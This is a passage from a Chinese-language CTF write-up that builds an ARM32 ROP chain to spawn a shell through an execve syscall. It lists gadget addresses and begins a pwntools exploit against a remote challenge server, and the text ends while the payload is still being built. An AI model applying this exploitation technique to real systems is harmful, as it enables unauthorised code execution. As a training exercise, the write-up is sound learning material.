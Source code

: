 接下来看看二进制文件里面有没有给什么能用的东西：  
发现`string`里面有`/bin/sh`字符串可以利用，但是没有函数调用的`system`函数或者`execve`函数，考虑系统调用。

![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241028231852394.png)![](/images/16a9640825db6004a64e31184f72a33b.png)

到这里可以知道我们的目标了：

> R0 : `/bin/sh`地址  
R1 : 0  
R2 : 0  
R7 : 11（0xb）  
调用`svc #0`汇编指令
>

接着来找gadget：  
先找`svc #0`指令：  
挑个`svc #0`开头的应该就可以了，程序执行到这一步就已经getshell

![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241028231523765.png)![](/images/b6a7216d790dbb8fbb11b866a1b90352.png)

再找`pop`指令：

![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241028221413377.png)![](/images/8bf027418bc87b0c10f116ae798d5564.png)

可以用的有：

> 0x0005f73c : pop {r0, pc}  
0x0005f824 : pop {r1, pc}  
0x00027d78 : pop {r7, pc}
>

接着看`b`指令(BL、BLX、BX...)：尽量找短的gadget  
我选择：`0x00043224 : mov r2, r4 ; blx r3`  
前面找`pop`指令的时候发现没法直接通过`pop`指令控制`r2`寄存器，可以用这句顺带把`r2`寄存器的值设为0

再回过头看`pop`指令有哪些能用上的:

> 0x00010160 : pop {r3, pc}  
0x000280a4 : pop {r4, r7, pc} #前面的 pop {r7, pc}换成这个
>

这下凑齐gadget了：

> gadget1=0x5f73c #pop r0,pc  
gadget2=0x5f824 #pop r1,pc  
gadget3=0x280a4 #pop r4,r7,pc  
gadget4=0x10160 #pop r3,pc  
gadget5=0x43224 #mov r2,r4 ; blx r3
>

献上exp：

```python
from pwn import *
context(os = "linux", arch = 'arm', log_level = 'debug')

link=remote("43.248.97.213",40088)

binsh=0x8A090
gadget1=0x5f73c #pop r0,pc
gadget2=0x5f824 #pop r1,pc
gadget3=0x280a4 #pop r4,r7,pc
gadget4=0x10160 #pop r3,pc
gadget5=0x43224 #mov r2,r4 ; blx r3
svc=0x5829c #arm32 系统调用

padding=0x44
payload=b'a'*padding
payload+=p32(gadget1)
```